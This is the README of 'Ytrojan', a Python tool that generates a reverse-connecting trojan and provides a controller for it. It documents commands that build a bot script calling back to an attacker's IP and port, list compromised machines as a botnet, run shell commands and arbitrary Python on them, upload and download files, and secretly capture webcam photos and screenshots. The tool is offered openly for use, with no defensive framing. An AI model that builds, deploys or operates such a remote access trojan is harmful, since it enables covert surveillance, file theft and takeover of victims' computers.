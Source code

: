 # Ytrojan

`Ytrojan` is a troj generator based on the C/S structure in the TCP protocal, where the controller is treated as the **server** and the controlled terminal is treated as the **client**.

## How to use Ytrojan

Use a Python intepreter (`>=3.10`) to run `Main-Cmd.py`.

Result:
```
 __   ___             _             
 \ \ / / |_ _ __ ___ (_) __ _ _ __  
  \ V /| __| '__/ _ \| |/ _` | '_ \ 
   | | | |_| | | (_) | | (_| | | | |
   |_|  \__|_|  \___// |\__,_|_| |_|
                   |__/                         
                                      
Ytrojan $>
```  

### Use the command `generate` to generate the controlled script

```
Function Prototype: YtrojyanAPI.Generate(BotSrc,BotIp,BotPort)
Command:            generate [PATH] [IP] [PORT]
1. [PATH] is the path to the controlled script
          e.g. : D:\bot.py  /home/bot.py
2. [IP]   is the IP address of the controller
3. [PORT] is the port number of the controller
```

### Use the command `listen` to open the controller's port and wait for the connection from the controlled terminal of the reversed troj

```
Function Prototype: YtrojyanAPI.Listen(ControlPort)
Command:            listen [ControlPort]

1. [ControlPort] is the controller.
```  

### How to operate on the target
Use command `botnet` to list all controlled terminals.  
The command `botnet` will list all connected terminals, each in the following format:
```
[NO] | [OS_NAME] [NETWORK_NAME] [CPU_ARCH] [IP]
```
where

| Placeholder       | Meaning                                       |
|-------------------|-----------------------------------------------|
| `[NO]`            | The id number of the terminal.                |
| `[OS_NAME]`       | The type of its OS.(`posix` or `nt`)          |
| `[NETWORK_NAME]`  | Its name in the network.                      |
| `[CPU_ARCH]`      | The architecture of the CPU.                  |
| `[IP]`            | The IP of the controlled terminal.            |

Use command `run` to execute commands on the controlled terminal.

```
Function Prototype:      YtrojanAPI.Run(BotSocket, Command)
Command:                 run [no_of_terminal] [command]
                         where [command] could be one of the following:
                             1. shell [SHELL_COMMAND]
                                e.g. run 0 shell ls
                                     (execute the shell command ls at the connected terminal 0)
                             2. pycode [PythonCode]
                                Execute python code on the controlled terminal.
                                e.g. run 0 pycode import tkinter;w = tkinter.Tk();w.mainloop()
                             3. getfile [dist_path] [src_path]
                                Download file from the controlled terminal, where
                                    [dist_path] is the path on the controller terminal to save the downloaded file.
                                    [src_path]  is the path on the controlled terminal to the file that will be downloaded.
                             4. putfile [dist_path] [src_path]
                                Save the file at the [src_path] on the controller terminal to the file at the [dist_path] on the controlled terminal.
                             5. webcamsnap [path]
                                Use the controlled terminal's WebCam to take a photo and save it to the path on the controller terminal.
                             6. screenshot [path]
                                Get a screenshot from the controlled terminal and save to the [path] on the controller terminal.
```

